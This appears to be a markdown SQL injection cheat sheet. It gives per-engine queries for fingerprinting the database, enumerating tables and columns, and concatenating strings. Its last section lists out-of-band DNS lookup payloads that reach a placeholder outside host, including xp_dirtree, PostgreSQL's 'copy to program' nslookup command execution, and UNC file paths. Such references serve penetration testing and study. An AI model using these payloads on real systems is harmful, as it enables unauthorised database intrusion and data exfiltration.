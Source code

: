 # Introduction
Once SQL injection has been identified, the next step is to enumerate the underlying database engine. Unfortunately, each database engine uses its own syntax for metadata, which makes this process highly engine-dependent.

## Database Version
Database | Version Info
---------| ------------
Oracle|`SELECT banner FROM v$version` <br> `SELECT version FROM v$instance`
Microsoft| `SELECT @@version`
PostgreSQL| `SELECT version()`
MySQL| `SELECT @@version `

## Database Contents
Listing tables and the columns they contain:

Database | Contents Info
---------| ------------
Oracle| `SELECT * FROM all_tables` <br> `SELECT * FROM all_tab_columns WHERE table_name = 'Table Name'`
Microsoft| `SELECT * FROM information_schema.tables` <br> `SELECT * FROM information_schema.columns WHERE table_name = 'Table Name'`
PostgreSQL| `SELECT * FROM information_schema.tables` <br> `SELECT * FROM information_schema.columns WHERE table_name = 'Table Name'`
MySQL| ` SELECT * FROM information_schema.tables` <br> `SELECT * FROM information_schema.columns WHERE table_name = 'Table Name'`

# String Concatenation
Database | Concatenation
---------| ------------
Oracle| 'a'\|\|'b'
Microsoft| 'a'+'b'
PostgreSQL| 'a'\|\|'b'
MySQL| 'a' 'b' (space) or `CONCAT('a','b')`

# DNS Lookups
Database | Lookup Syntax
---------| ------------
Oracle| `SELECT UTL_INADDR.get_host_address('domain')` - requires elevated privileges
Microsoft| `exec master..xp_dirtree '//domain/a'`
PostgreSQL| `copy (SELECT '') to program 'nslookup domain`
MySQL| These work only on Windows <br> `LOAD_FILE('\\\\domain\\a')` <br> `SELECT ... INTO OUTFILE '\\\\domain\a'`